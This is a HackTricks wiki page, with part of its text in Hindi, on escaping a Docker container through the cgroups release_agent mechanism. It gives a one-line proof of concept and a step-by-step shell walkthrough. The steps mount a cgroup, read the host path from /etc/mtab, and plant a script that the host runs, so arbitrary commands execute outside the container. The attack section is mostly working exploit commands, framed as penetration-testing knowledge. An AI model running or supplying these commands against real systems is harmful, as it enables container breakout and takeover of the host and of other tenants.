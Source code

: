 # Docker release\_agent cgroups escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


**अधिक जानकारी के लिए, कृपया** [**मूल ब्लॉग पोस्ट**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)** को देखें।** यह केवल एक सारांश है:

Original PoC:
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
The proof of concept (PoC) demonstrates a method to exploit cgroups by creating a `release_agent` file and triggering its invocation to execute arbitrary commands on the container host. Here's a breakdown of the steps involved:

1. **पर्यावरण तैयार करें:**
* एक निर्देशिका `/tmp/cgrp` बनाई जाती है जो cgroup के लिए माउंट पॉइंट के रूप में कार्य करती है।
* RDMA cgroup नियंत्रक को इस निर्देशिका में माउंट किया जाता है। RDMA नियंत्रक की अनुपस्थिति की स्थिति में, वैकल्पिक के रूप में `memory` cgroup नियंत्रक का उपयोग करने की सिफारिश की जाती है।
```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
2. **बच्चे Cgroup सेट करें:**
* "x" नाम का एक बच्चा cgroup माउंट किए गए cgroup निर्देशिका के भीतर बनाया गया है।
* "x" cgroup के लिए सूचनाएँ सक्षम की गई हैं, इसके notify\_on\_release फ़ाइल में 1 लिखकर।
```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```
3. **रिलीज एजेंट को कॉन्फ़िगर करें:**
* होस्ट पर कंटेनर का पथ /etc/mtab फ़ाइल से प्राप्त किया जाता है।
* फिर cgroup की release\_agent फ़ाइल को प्राप्त किए गए होस्ट पथ पर स्थित /cmd नामक स्क्रिप्ट को निष्पादित करने के लिए कॉन्फ़िगर किया जाता है।
```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
4. **/cmd स्क्रिप्ट बनाएं और कॉन्फ़िगर करें:**
* /cmd स्क्रिप्ट कंटेनर के अंदर बनाई जाती है और इसे ps aux निष्पादित करने के लिए कॉन्फ़िगर किया जाता है, जिसका आउटपुट कंटेनर में /output नामक फ़ाइल में पुनर्निर्देशित किया जाता है। होस्ट पर /output का पूरा पथ निर्दिष्ट किया गया है।
```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
5. **हमला शुरू करें:**
* "x" चाइल्ड cgroup के भीतर एक प्रक्रिया शुरू की जाती है और तुरंत समाप्त कर दी जाती है।
* यह `release_agent` (जो /cmd स्क्रिप्ट है) को सक्रिय करता है, जो होस्ट पर ps aux चलाता है और आउटपुट को कंटेनर के भीतर /output पर लिखता है।
```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
